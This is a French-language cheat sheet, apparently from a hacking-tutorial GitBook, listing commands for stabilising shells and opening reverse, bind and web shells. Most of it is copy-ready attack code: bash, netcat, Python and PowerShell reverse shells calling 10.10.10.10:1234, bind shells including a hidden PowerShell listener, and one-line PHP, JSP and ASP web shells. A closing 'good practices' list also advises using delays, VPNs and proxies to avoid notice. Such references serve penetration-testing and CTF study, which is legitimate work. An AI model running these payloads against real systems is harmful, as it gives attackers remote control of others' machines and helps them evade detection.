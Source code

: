 # Shell Stable et Reverse Shell

## **Shell Stable**

⚠️ **Avertissement** : Ce contenu est strictement destiné à un usage éducatif et éthique dans le domaine de la cybersécurité. Toute utilisation illégale ou malveillante est interdite et engage la seule responsabilité de l’utilisateur.

### **1. Utilisation de `rlwrap`**

Si l'outil `rlwrap` est disponible sur la machine attaquante, tu peux améliorer l’interactivité du shell avec l'historique et les touches directionnelles :

```bash
rlwrap /bin/bash
```

### **2. Méthode Bash (sans Python)**

Si Python n'est pas disponible, mais que Bash est présent, utilise cette commande pour obtenir un shell interactif :

```bash
/bin/bash -i
```

### **3. Méthode Python**

Si Python est disponible sur la machine cible, utilise cette commande pour obtenir un shell interactif :

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

### **4. Méthode Python3**

Si Python3 est disponible, utilise cette commande :

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### **5. Méthode avec `socat` (si disponible)**

Si `socat` est disponible sur la machine cible ou si tu peux l’installer, tu peux établir un shell stable :

```bash
socat file:`tty`,raw,echo=0 tcp-connect:<IP>:<PORT>
```

### **6. Méthode Netcat et `/dev/tcp`**

Si l’accès réseau est possible depuis le shell et que la machine cible permet la lecture via `/dev/tcp`, tu peux établir une connexion stable avec Netcat :

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc <IP> <PORT> > /tmp/f
```

### **7. Utilisation de SSH**

Si tu as accès à une session avec un shell limité, tu peux essayer d’utiliser SSH pour obtenir un shell stable :

```bash
ssh user@localhost /bin/bash
```

***

## **Reverse Shell**

Un reverse shell est utilisé pour établir une connexion de la machine cible vers ton PC (machine attaquante). Voici des exemples pour différents langages.

### **1. Bash**

Commande 1 :

```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

Commande 2 :

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.10.10 1234 > /tmp/f
```

### **2. Python**

Si Python est disponible sur la cible :

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty;pty.spawn("/bin/bash")'
```

### **3. Python3**

Si Python3 est disponible :

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty;pty.spawn("/bin/bash")'
```

### **4. PowerShell**

Utilise cette commande si PowerShell est présent :

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

***

## **Bind Shell**

Un bind shell permet à ton PC de se connecter à un port ouvert sur la machine cible.

### **1. Bash**

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -lvp 1234 > /tmp/f
```

### **2. Python**

```python
python3 -c 'import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();while True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())'
```

### **3. PowerShell**

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

***

## **Web Shell**

Un web shell est une interface web permettant d’exécuter des commandes sur un serveur via un navigateur.

### **1. PHP**

```php
<?php system($_REQUEST["cmd"]); ?>
```

### **2. JSP**

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

### **3. ASP**

```asp
<% eval request("cmd") %>
```

***

## **Bonnes Pratiques**

1. **Obtenir des autorisations** :
   * Toujours travailler dans un cadre légal et éthique. Obtenez des autorisations explicites avant de tester des systèmes.
2. **Minimiser les traces** :
   * Configurez des délais entre les connexions et utilisez des outils comme des VPN ou des proxys pour éviter d’attirer l’attention.
3. **Analyser les environnements** :
   * Avant d’exécuter un shell interactif, vérifiez les configurations locales pour éviter de briser les sessions existantes.

***

**Liens utiles :**

* [Mentions légales](https://dika-1.gitbook.io/road-to-hacker/mentions-legales)
* [Politique de confidentialité](https://dika-1.gitbook.io/road-to-hacker/politique-de-confidentialite)
* [Contactez-nous](mailto:dika-road-to-hacker@protonmail.com)
